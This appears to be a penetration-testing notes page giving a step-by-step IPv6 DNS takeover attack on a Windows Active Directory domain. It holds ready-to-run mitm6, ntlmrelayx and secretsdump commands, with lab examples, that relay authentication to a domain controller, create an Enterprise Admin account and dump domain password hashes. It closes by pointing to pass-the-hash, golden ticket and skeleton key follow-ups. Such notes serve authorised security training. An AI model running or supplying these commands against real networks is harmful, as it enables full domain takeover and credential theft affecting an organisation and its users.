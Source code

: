 By default IPv4 and IPv6 are enabled on a network but only IPv4 is used and has a DNS Service.
An attacker can spoof being an IPv6 DNS provider, allowing authentication to the Domain Controller via LDAP or SMB.
***THIS ATTACK CAN CAUSE NETWORK OUTAGES. ONLY PERFORM 5-10mins AT A TIME.***
# How to do it
## Step 1:
Start ntlmrelayx.
```bash
ntlmrelayx.py -6 -t ldaps://$(IP_ADDRESS) -wh [FAKE WPAD NAME HERE] -l [FOLDERNAME]
```
Example:
```bash
ntlmrelayx.py -6 -t ldaps://192.168.138.136 -wh fakewpad.marvel.local -l lootme
```
## Step 2:
Start mitm6.
```bash
sudo mitm6 -d $(DOMAIN)
```
Example:
```bash
sudo mitm6 -d marvel.local
```
## Step 3:
Go through the folder created by ntlmrelayx (e.g. lootme). Pay attention to users, descriptions and OS versions. If an account has barely ever/never been loggerd into, it could be a honeypot.
## Step 4:
Once events are triggered (e.g. a reboot), a user should be created on the DC with Enterprise Admin rights.
This user can be used with secretsdump.py to compromise the domain.
```bash
secretsdump.py $(DOMAIN)/$(USERNAME):'$(PASSWORD)'$(DC_IP_ADDRESS)
```
Example:
```bash
secretsdump.py juggernaut.local/miUBjARusF:'4HVsO.XO^S,:OuI'@172.16.1.5
```
Now that we have the domain admins hash, we could perform a pass-the-hash attack to get a foothold onto the DC and virtually do anything we want, such as: over-pass-the-hash, create a golden ticket, create a skeleton key, etc.
